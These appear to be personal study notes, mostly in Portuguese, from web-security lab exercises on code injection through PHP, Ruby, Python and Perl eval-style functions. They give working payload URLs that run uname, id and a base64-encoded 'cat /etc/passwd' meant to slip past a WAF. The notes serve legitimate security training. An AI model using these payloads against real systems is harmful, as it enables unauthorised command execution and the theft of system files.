






Code execution

execução de código nada mais é do que você executar qualquer outro código fora o flow normal do programa.

By adding dummy code: ".system('uname -a'); $dummy=".  
By using comment: ".system('uname -a');# or ".system('uname -a');//.

em php o **ponto** serve pra concatenar uma string // são comentarios e ; é pra executar o codigo



&nbsp;

https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

The `preg_replace()` function returns a string or array of strings where all matches of a pattern or list of patterns found in the input are replaced with substrings. ([more](https://www.php.net/manual/en/function.preg-replace.php))

```
<?php
echo "<br >Welcome My Admin ! <br >";
 
if (isset($_GET['pat']) && isset($_GET['rep']) && isset($_GET['sub'])) {
 
 $pattern = $_GET['pat'];
    $replacement = $_GET['rep'];
    $subject = $_GET['sub'];
 
 echo "original : ".$subject ."</br>";
    echo "replaced : ".preg_replace($pattern, $replacement, $subject);
}else{
    die();
}
?>
```

[http://ptl-59e83e27-566604f4.libcurl.so/?new=phpinfo()&pattern=/lamer/e&base=Hello lamer](http://ptl-59e83e27-566604f4.libcurl.so/?new=phpinfo%28%29&pattern=/lamer/e&base=Hello%20lamer "http://ptl-59e83e27-566604f4.libcurl.so/?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer")

sempre coloca um aspas ou um ponto pra tentar dar um erro.

funcao eval é horrivel de insegura  


aqui a funcao eval está concatenando a string hello + username(hacker) com o + (%2b) conseguimos concatenar e até fazer um RCE  
  
com o uname -a em ruby  
[http://ptl-226346bd-ff032fee.libcurl.so/?username=hacker"%2B \`uname -a\` %2B"](http://ptl-226346bd-ff032fee.libcurl.so/?username=hacker%22%2b%20%60uname%20-a%60%20%2b%22)



essa leitura feita com python  
[http://ptl-61fac674-2f8c9a97.libcurl.so/hello/hacker\`"%2Bstr(os.popen('id').read()](http://ptl-61fac674-2f8c9a97.libcurl.so/hello/hacker%60%22%2bstr%28os.popen%28%27id%27%29.read%28%29 "http://ptl-61fac674-2f8c9a97.libcurl.so/hello/hacker%60%22%2bstr(os.popen('id').read()"))%2b%22test%60

não pense que o site é estático so por não ter nenhum parametro escrito na URL



presta atenção no payload encodado em b64 (cat /etc/passwd) assim vc consegue fazer bypass no waf  
[http://ptl-45cded92-0f037846.libcurl.so/hello/hacker"+str(_*import*\_('os').popen(_*import*\_('base64').b64decode('Y2F0IC9ldGMvcGFzc3dk')](http://ptl-45cded92-0f037846.libcurl.so/hello/hacker%22+str%28__import__%28%27os%27%29.popen%28__import__%28%27base64%27%29.b64decode%28%27Y2F0IC9ldGMvcGFzc3dk%27%29 "http://ptl-45cded92-0f037846.libcurl.so/hello/hacker%22+str(__import__('os').popen(__import__('base64').b64decode('Y2F0IC9ldGMvcGFzc3dk')")).read())+%22

&nbsp;



http://ptl-9a3d96d1-734ade20.libcurl.so/cgi-bin/hello?name=hacker%27.%20\`/usr/local/bin/score%20b7f07a0d-8f99-4844-bff2-d599528b904e\`.%27

presta atenção nas particularidades de cada programação, na pagina parece ser tudo feito em JS, mas na verdade ta em Perl (. é concatenação)

/usr/local/bin/score b7f07a0d-8f99-4844-bff2-d599528b904e